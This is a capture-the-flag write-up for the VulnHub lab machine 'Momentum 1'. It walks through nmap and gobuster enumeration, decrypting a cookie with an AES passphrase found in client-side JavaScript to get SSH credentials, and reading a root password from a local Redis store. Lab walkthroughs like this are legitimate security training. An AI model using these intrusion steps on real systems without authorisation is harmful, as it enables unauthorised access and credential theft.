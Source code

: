 # [Momentum 1](https://www.vulnhub.com/entry/momentum-1,685/)

We start off with `nmap`

```
# Nmap 7.92 scan initiated Tue Sep  7 12:33:25 2021 as: nmap -vvv -p 22,80 -sCV -oA init 192.168.1.14
Nmap scan report for box.ip (192.168.1.14)
Host is up, received syn-ack (0.00020s latency).
Scanned at 2021-09-07 12:33:26 +07 for 6s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 5c:8e:2c:cc:c1:b0:3e:7c:0e:22:34:d8:60:31:4e:62 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCgY+ZHfSI8n4CS/wRyjcub7cHXCF/Lg9B1V5/ON1L6cGSGi/d2UZI7DBzQ+HFfbDAHaXC+LCAd1YP+DUMBZTFeXq92YvaBgdMKqwSPUV3xjwdjZ4CxtFFlBOmm+7FV3RiJTqMqyuHrMtm8HyCy6qCGspg7N68GrtqKjx4hpVV1g83OejNgndSX8lFFicAUgyyITwTFNmORt1Q1gRsCrlyIsgBmKFA5ILdc368qfQ1wkl5UuQIywCR5tBocCr9wjz/Kmnw2vL9nVkz7Rpgoy+PpauO79oT3KNJCY14Na3HlIMkfHFDgAah2faQ+KfZ6iwHEBhUCc/Ntf73/hvNLhvMJ
|   256 81:fd:c6:4c:5a:50:0a:27:ea:83:38:64:b9:8b:bd:c1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAvETSAbSxSsiZsuMSlYBMPl4mnydOMukiWu7qTYt5jU7pkBdEyF1bT2MUBPAHf2Yr7LKAnmTUwmG8d3fPwK0A0=
|   256 c1:8f:87:c1:52:09:27:60:5f:2e:2d:e0:08:03:72:c8 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDyxkKiZS8Udvbmkf2wuWsUyotMD+/KKuHKbFTKRcttA
80/tcp open  http    syn-ack Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
| http-methods:
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-title: Momentum | Index
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Sep  7 12:33:32 2021 -- 1 IP address (1 host up) scanned in 6.64 seconds
```

We have a web service on port 80 so we run `gobuster` on it.

```
/css                  (Status: 200) [Size: 931]
/manual               (Status: 200) [Size: 626]
/js                   (Status: 200) [Size: 928]
/img                  (Status: 200) [Size: 1495]
/server-status        (Status: 403) [Size: 277]
```

Nothing special here. Interacting with the web page, clicking on an image and clicking again on the enlarged image gives us a URL as follows

```
http://192.168.1.14/opus-details.php?id=guard
```

This looks like a possible LFI. However, if we go on to view the image in another tab, we see that the image names are not the same as what's provided in the `id` parameter and are instead files like `/img/c.jpg`. Just to be sure, I checked for LFI but that doesn't work. We do, however, have a cookie on this page (and not on the `/` page).

```js
>>> document.cookie
"cookie=U2FsdGVkX193yTOKOucUbHeDp1Wxd5r7YkoM8daRtj0rjABqGuQ6Mx28N1VbBSZt"
```

We don't know what that cookie is, however, so we note it for later.

Looking at the page source code, we have a JS file: `/js/main.js`. Looking at this file, we have an encryption key.

```js
var CryptoJS = require("crypto-js");
var decrypted = CryptoJS.AES.decrypt(encrypted, "SecretPassphraseMomentum");
console.log(decrypted.toString(CryptoJS.enc.Utf8));
```

Looking back at the cookie from `opus-details.php`, we can try decrypting the cookie, so I made an HTML file for just that.

```html
  <script src="https://cdnjs.cloudflare.com/ajax/libs/crypto-js/3.1.2/rollups/aes.js"></script>
  <script>
    var encrypted = "U2FsdGVkX193yTOKOucUbHeDp1Wxd5r7YkoM8daRtj0rjABqGuQ6Mx28N1VbBSZt";
    var decrypted = CryptoJS.AES.decrypt(encrypted, "SecretPassphraseMomentum");
    console.log(decrypted.toString(CryptoJS.enc.Utf8));
  </script>
```

With this, we should have `auxerre-alienum##` as the decrypted value. Doesn't look like a URL, so we try logging into SSH with it. We should be able to log in with the credentials `auxerre:auxerre-alienum##`.

Looking at listening ports ...

```sh
auxerre@Momentum:/tmp$ ss -tlnp
State          Recv-Q          Send-Q                   Local Address:Port                   Peer Address:Port
LISTEN         0               128                          127.0.0.1:6379                        0.0.0.0:*
LISTEN         0               128                            0.0.0.0:22                          0.0.0.0:*
LISTEN         0               128                              [::1]:6379                           [::]:*
LISTEN         0               128                                  *:80                                *:*
LISTEN         0               128                               [::]:22                             [::]:*
```

We see something's listening on port 6379. Checking with `ps` ...

```sh
auxerre@Momentum:/tmp$ ps aux | grep 6379
redis      435  0.0  0.4  51672  9544 ?        Ssl  01:28   0:03 /usr/bin/redis-server 127.0.0.1:6379
```

We see that `redis` is running. We have `redis-cli` on the machine so we can use that to enumerate redis.

```
127.0.0.1:6379> KEYS *
1) "rootpass"
127.0.0.1:6379> GET rootpass
"m0mentum-al1enum##"
```

We have a password for root. With this, we can `su` and become root.
